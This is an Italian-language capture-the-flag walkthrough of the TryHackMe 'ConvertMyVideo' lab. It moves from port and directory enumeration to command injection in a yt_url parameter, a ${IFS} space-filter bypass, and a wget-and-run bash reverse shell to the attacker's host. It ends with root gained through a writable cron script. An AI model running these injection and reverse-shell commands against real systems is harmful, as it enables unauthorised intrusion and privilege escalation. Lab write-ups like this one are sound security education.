





ConvertMyVideo
Link: https://tryhackme.com/room/convertmyvideo
IP: cmv.lab
Partiamo come sempre con l’enumerare i servizi aperti nella macchina.
| kali@kali:~/Desktop/CTF/ConvertMyVideo$ sudo nmap -sS -sV -sC -O -p- cmv.lab
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-21 20:58 +0200
Nmap scan report for cmv.lab (10.129.149.34)
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
| 256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_ 256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.99%E=4%D=10/21%OT=22%CT=1%CU=40060%PV=Y%DS=3%DC=I%G=Y%TM=6AD90B
OS:7D%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)SE
OS:Q(SP=102%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=104%GCD=1%ISR=105%TI=Z
OS:%CI=Z%II=I%TS=A)SEQ(SP=FE%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M4E8S
OS:T11NW7%O2=M4E8ST11NW7%O3=M4E8NNT11NW7%O4=M4E8ST11NW7%O5=M4E8ST11NW7%O6=M
OS:4E8ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y
OS:%T=40%W=F507%O=M4E8NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=
OS:)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T
OS:=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=
OS:0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=
OS:164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
Network Distance: 3 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.74 seconds
|
| Servizio |
Porta |
Versione |
Note |
| SSH |
22 |
OpenSSH 7.6p1 |
|
| HTTP |
80 |
Apache httpd 2.4.29 |
|
Eseguiamo un enumerazione dei percorsi disponibili nella pagina web
| kali@kali:~/Desktop/CTF/ConvertMyVideo$ gobuster dir -u http://cmv.lab/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x ".php,.txt,.bak"
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://cmv.lab/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.8.2
[+] Extensions: php,txt,bak
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta (Status: 403) [Size: 272]
.hta.txt (Status: 403) [Size: 272]
.hta.php (Status: 403) [Size: 272]
.htaccess.php (Status: 403) [Size: 272]
.hta.bak (Status: 403) [Size: 272]
.htaccess (Status: 403) [Size: 272]
.htpasswd (Status: 403) [Size: 272]
.htaccess.bak (Status: 403) [Size: 272]
.htaccess.txt (Status: 403) [Size: 272]
.htpasswd.php (Status: 403) [Size: 272]
.htpasswd.txt (Status: 403) [Size: 272]
.htpasswd.bak (Status: 403) [Size: 272]
admin (Status: 401) [Size: 454]
images (Status: 301) [Size: 303] [--> http://cmv.lab/images/]
index.php (Status: 200) [Size: 747]
index.php (Status: 200) [Size: 747]
js (Status: 301) [Size: 299] [--> http://cmv.lab/js/]
server-status (Status: 403) [Size: 272]
tmp (Status: 301) [Size: 300] [--> http://cmv.lab/tmp/]
Progress: 19000 / 19000 (100.00%)
|
Sono presenti di pagine interessanti solo /admin e /tmp accessibili solo però con autorizzazioni.
Questa invece è la dashboard

Inviando una qualsiasi richiesta, come test veidamo che viene concatenata con un url che viene però passato durante la creazione della POST noi con Burp Suite possiamo modificarne il comportamento!

Se noi proviamo a concatenare a test un apice ' otteniamo un errore diverso.

Questo significa che il parametro che passiamo, viene passato a un eseguibile bash


Si aspetta quindi un url, creo un file bash
| yt_url=http://192.168.142.32:8000/shell.sh
|
Con risposta
| {"status":1,"errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nWARNING: Falling back on generic information extractor.\nWARNING: URL could be a direct video link, returning it as such.\nERROR: requested format not available\n","url_orginal":"http:\/\/192.168.142.32:8000\/shell.sh","output":"[generic] shell: Requesting header\n[generic] shell: Downloading webpage\n","result_url":"\/tmp\/downloads\/6ad915ef71b5e.mp3"}
|
Ed effettivamente se guardiamo, lo sta scaricando
| kali@kali:~/Desktop/CTF/ConvertMyVideo$ nano shell.sh
kali@kali:~/Desktop/CTF/ConvertMyVideo$ cat shell.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.142.32/4444 0>&1
kali@kali:~/Desktop/CTF/ConvertMyVideo$ chmod 777 shell.sh
kali@kali:~/Desktop/CTF/ConvertMyVideo$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.130.175.234 - - [21/Oct/2026 21:43:45] "HEAD /shell.sh HTTP/1.1" 200 -
10.130.175.234 - - [21/Oct/2026 21:43:45] "GET /shell.sh HTTP/1.1" 200 -
|
Guardando però la pagina restituita otteniamo 404
| kali@kali:~/Desktop/CTF/ConvertMyVideo$ curl http://cvm.lab/tmp/downloads/6ad915ef71b5e.mp3
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.29 (Ubuntu) Server at cvm.lab Port 80</address>
</body></html>
|
Quindi ricapitolando, credo che il programma faccia un qualcosa del genere
yt-dlp <input> -o /tmp/downloads/xxxxxxxxxxx.mp3
Infatti possiamo vedere che è proprio così attraverso questa query
Che restituisce
| {"status":127,"errors":"WARNING: Assuming --restrict-filenames since file system encoding cannot encode all characters. Set the LC_ALL environment variable to fix this.\nUsage: youtube-dl [OPTIONS] URL [URL...]\n\nyoutube-dl: error: You must provide at least one URL.\nType youtube-dl --help to see a list of all options.\nsh: 1: -f: not found\n","url_orginal":";whoami;","output":"www-data\n","result_url":"\/tmp\/downloads\/6ada62255a0ed.mp3"}
|
Sta effettivamente eseguendo codice bash arbitrario… potremo inserirci una reverse shell.
Eseguendo diversi comandi tra cui yt_url=;whoami; , yt_url=;ls;
Vediamo che è utente www-data e vede diverse cartelle tra cui admin, images, ntmp,njs e alcuni file index.php, style.css,
Il backend blocca gli spazi quindi comandi come ls -al vengono troncati in ls . Aiutandomi con deepseek però ho scopero l’esistenza di ${IFS} una variabile d’ambiente della shell che serve per spezzare le parole a differenza dello spazio (con un analisi post questa conoscenza, ho appurato che il backend considera separate le parole solo con carattere spazio %20 quindi anche premere TAB da lo stesso funzionamento di ${IFS}.
Quindi ho creato un file shell.sh su Kali e l’ho servito sulla porta 8000
| kali@kali:~/Desktop/CTF/ConvertMyVideo$ cat shell.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.142.32/4444 0>&1
|
| kali@kali:~/Desktop/CTF/ConvertMyVideo$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.176.107 - - [22/Oct/2026 21:55:22] "GET /shell.sh HTTP/1.1" 200 -
|
Facendolo quindi scaricare ed eseguire
| yt_url=;wget${IFS}http://192.168.142.32:8000/shell.sh${IFS}-O${IFS}/tmp/s;bash${IFS}/tmp/s;:
|
Instaurando con successo una reverse shell.
| kali@kali:~$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.142.32] from (UNKNOWN) [10.129.176.107] 48694
bash: cannot set terminal process group (909): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dmv:/var/www/html$ whoami
whoami
www-data
|
Guardando con LinPeas
| ══╣ Polkit Binary (T1548.003,T1068)
Pkexec binary found at: /usr/bin/pkexec
Pkexec binary has SUID bit set!
-rwsr-xr-x 1 root root 22520 Mar 27 2019 /usr/bin/pkexec
pkexec version 0.105
CVE-2021-4034 candidate: root-owned SUID pkexec with older upstream version; verify distro package fixes and mitigations
|
Interessante..
Usando pspy64 notiamo che ogni tanto root esegue 2026/10/22 20:30:01 CMD: UID=0 PID=26794 | /bin/sh -c cd /var/www/html/tmp && bash /var/www/html/tmp/clean.sh
Processo da noi modificabile
| www-data@dmv:/var/www/html/tmp$ ls -al
total 3044
drwxr-xr-x 2 www-data www-data 4096 Oct 22 20:29 .
drwxr-xr-x 6 www-data www-data 4096 Oct 22 20:22 ..
-rw-r--r-- 1 www-data www-data 17 Apr 12 2020 clean.sh
|
Ci inseriamo quindi dentro una reverse shell, così quando root esegue si connette
| kali@kali:~/Desktop/CTF/ConvertMyVideo$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [192.168.142.32] from (UNKNOWN) [10.129.176.107] 59328
bash: cannot set terminal process group (26816): Inappropriate ioctl for device
bash: no job control in this shell
root@dmv:/var/www/html/tmp#
|